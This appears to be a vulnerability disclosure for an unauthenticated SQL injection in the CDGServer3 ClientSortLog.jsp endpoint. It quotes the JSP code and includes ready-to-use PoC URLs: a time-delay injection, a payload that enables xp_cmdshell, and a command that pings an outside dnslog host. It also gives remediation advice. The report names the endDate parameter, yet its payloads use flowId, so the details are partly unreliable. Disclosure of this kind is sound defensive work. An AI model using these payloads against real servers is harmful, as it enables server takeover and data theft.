



# Vulnerability Report

## Title: Unauthenticated SQLI Leading to Remote Code Execution (RCE)

### Summary:
A SQL injection vulnerability was discovered in the `ClientSortLog.jsp` endpoint, specifically in the `endDate` parameter. This vulnerability allows an unauthenticated attacker to execute arbitrary code on the MSSQL server, potentially gaining full control over the server.

### Affected Endpoint:
`/CDGServer3/logManagement/ClientSortLog.jsp`

### Vulnerability Type:
RCE

### Vulnerable Code:
```jsp
<%
    String baseTableName = "SystemLog";
	SystemLogInfo info = new SystemLogInfo();
	SystemLogDao dao = new SystemLogDao();

	List list = new ArrayList();

	int currPage = RequestUtil.getIntParameter(request, "curpage", 1);

	String userId = request.getParameter("userId"); 
	String userName = request.getParameter("userName"); 
	String[] logOperations = request.getParameterValues("logOperation"); 
	String logMemo = request.getParameter("logMemo"); 

	String startDate = request.getParameter("startDate"); 
	String endDate = request.getParameter("endDate"); 
	String organiseId = request.getParameter("organiseId");
	String organiseName = request.getParameter("organiseName");
	if( organiseName == null){
	  organiseName = "";
	}else{
	  organiseName = new String(organiseName.getBytes("ISO_8859_1"), "GBK");
	}


	SystemLogVO systemLogVO = new SystemLogVO();
	systemLogVO.setUserId(CDGUtil.replaceStringToDB(userId));
	systemLogVO.setUserName(CDGUtil.replaceStringToDB(userName));
	systemLogVO.setLogMemo(CDGUtil.replaceStringToDB(logMemo));
	systemLogVO.setLogOperations(logOperations);
	systemLogVO.setStartDate(startDate);
	systemLogVO.setEndDate(endDate);
	systemLogVO.setOrganiseId(organiseId);
	//PageUtil pageutil = dao.getSystemLogList(systemLogVO, currPage,tableName);
	PageUtilAndlogTableurl pageUtilAndlogTableurl = dao.getSystemLogList(startDate,endDate,systemLogVO,
			currPage,baseTableName,tableName);
	PageUtil pageutil = pageUtilAndlogTableurl.getPageUtil();
	list = pageutil.getRecords();
	session.setAttribute("maxrowcount", "" + pageutil.getRecordNum());
	session.setAttribute("maxpage", "" + pageutil.getPageNum());
	session.setAttribute("curpage", "" + currPage);
	session.setAttribute("selectTableName",tableName);
	int count = 0;
	if (list != null && list.size() > 0) {
		count = list.size();
	}
	OrganiseStructModel orgM = new OrganiseStructModel();
	List<OrganiseStructInfo> orgList = orgM.showFilterUserGroups(loginMng.getUserName(),rp);
	String logTableurl = pageUtilAndlogTableurl.getLogTableurl();
```

### Proof of Concept (PoC):
1. Time-based SQL Injection:
   ```
   https://uri/CDGServer3/logManagement/ClientSortLog.jsp?flowId=1';WAITFOR DELAY '0:0:10'--
   ```

2. Enabling `xp_cmdshell`:
   ```
   https://uri/CDGServer3/logManagement/ClientSortLog.jsp?flowId=1';EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;--
   ```

3. Executing arbitrary command:
   ```
   https://uri/CDGServer3/logManagement/ClientSortLog.jsp?flowId=1';exec master..xp_cmdshell 'ping 9abb3b22.log.dnslog.sbs.'--
   ```



### Impact:

This vulnerability allows an attacker to execute arbitrary commands on the server, which can lead to:
- Complete server compromise.
- Data exfiltration.
- Denial of Service (DoS) by executing resource-intensive commands.
- Potential lateral movement within the internal network.

### Recommendation:
1. **Input Validation and Sanitization:** Ensure that all user inputs are properly sanitized and validated. Use prepared statements with parameterized queries to prevent SQL injection.
2. **Least Privilege Principle:** Ensure the database user has the least privileges necessary for the application to function.
3. **Disable Dangerous Features:** Disable features like `xp_cmdshell` unless absolutely necessary.
4. **Regular Security Audits:** Conduct regular security audits and code reviews to identify and fix vulnerabilities.

### Conclusion:
The RCE in the `ClientSortLog.jsp` endpoint poses a significant security risk. Immediate remediation steps should be taken to sanitize user inputs and secure the database against unauthorized access and code execution.

### References:
- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [Mitigation Techniques](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)


